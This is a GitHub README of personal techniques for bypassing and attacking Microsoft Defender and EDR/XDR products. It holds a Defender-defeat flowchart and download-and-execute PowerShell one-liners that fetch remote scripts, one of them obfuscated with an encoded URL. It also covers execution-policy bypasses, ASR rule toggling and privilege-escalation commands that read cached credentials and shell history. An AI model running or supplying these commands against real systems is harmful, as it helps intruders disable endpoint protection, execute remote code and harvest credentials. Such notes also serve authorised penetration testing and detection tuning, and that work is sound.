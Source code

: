 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

[fkmde.ps1]([https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1)) can be run with multiple parameters and modes to suit different use cases and operational environments. Below are the key execution types and their respective usage examples, each catering to specific functionality and user requirements.

  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope as follows.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force

```
> [!IMPORTANT]
> However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script as follows.

```powershell
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

### officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)
![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

### wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html

## Ideas for LPE

```powershell
net accounts
cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
```

```powershell
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

WSL
```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

https://github.com/antonioCoco/RunasCs
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
https://github.com/BeichenDream/GodPotato
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

https://github.com/BlackShell256/Invoke-UAC



